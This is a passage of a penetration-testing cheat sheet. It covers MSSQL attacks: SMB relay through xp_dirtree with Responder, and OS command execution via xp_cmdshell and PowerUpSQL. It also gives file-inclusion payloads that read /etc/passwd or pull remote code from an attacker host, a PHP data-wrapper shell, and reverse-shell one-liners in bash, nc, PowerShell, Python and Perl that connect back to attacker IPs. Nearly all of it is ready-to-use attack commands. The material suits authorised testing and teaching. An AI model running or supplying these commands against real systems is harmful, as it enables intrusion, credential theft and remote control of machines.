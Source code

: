   Run Query using PowerUpSQL:   
  `Get-SQLQuery -Instance "sql1.domain.local,1433" -Query "select @@servername"`   
  Using Impacket mssqlclient.py:   
  `python3 /usr/local/bin/mssqlclient.py -windows-auth DOMAIN/user@10.10.100.100`   
  `SQL> select @@servername;`   

  SMB Relay through xp_dirtree:  
  Run responder on kali with `/opt/Responder/Responder.py -I eth0 -w -r -f -d`   
  Initiate connection on xp_dirtree vulnerable sql server: `Get-SQLQuery -Verbose -Instance "servername.domain.local,1433" -Query "EXEC master.sys.xp_dirtree '\\<kali-ip>\test123'"`   
  or: `Get-SQLQuery -Instance servername.domain.local -Query "xp_fileexist '\\<kaliip>\file'" -Verbose | out-null`   
  
  SQL Command Execution:   
  `Invoke-SQLOSCmd -Instance "sql1.domain.local,1433" -Command "whoami" -RawResults`   
  Using mssqlclientpy:    
  `EXEC xp_cmdshell 'whoami';`    
  
### Using SPN List
**Resolve all hosts for their IP** (If needed to check in scope items):   
```powershell
foreach($entry in (get-content "C:\Users\bob\Desktop\sqlhostnames.txt")){
    $dnsentry = Resolve-DnsName -Name $entry -TcpOnly -Server 10.0.0.1 -ErrorAction SilentlyContinue
    if($dnsentry.count -gt 0){ $dnsentry | % {"$($_.Name),$($_.IPAddress)"} }else{ "$entry,N/A" }
    start-sleep -Seconds 5
}
```
Use the list with PowerUpSQL:
`get-content .\sqlinstances.txt | Get-SQLConnectionTest -Verbose -Username "domain\user" -password "asdfasdf"` 

## File inclusion
- LFI: http://target.com/?page=home --> http://target.com/?page=./../../../../../../../../../etc/passwd%00
- RFI: http://target.com/?page=home --> http://target.com/?page=http://hackerip/evil.txt%00
- With LFI, data wrappers can be used:
  `http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`  

## Reverse Shells
Linux:
- Pipe /bin/sh back to 10.0.0.1 port 1234:  
  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ` 
- More: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
- `nc -e /bin/sh 10.10.10.10 4443` 
- `bash -i >& /dev/tcp/10.10.10.10/443 0>&1`  

Windows:
- nc.exe on Windows:  
  `nc.exe -e cmd.exe attackerip 1234` 
- PowerShell:  
  `powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` 
- Python:  
  `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`  
- Perl:  
  `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` 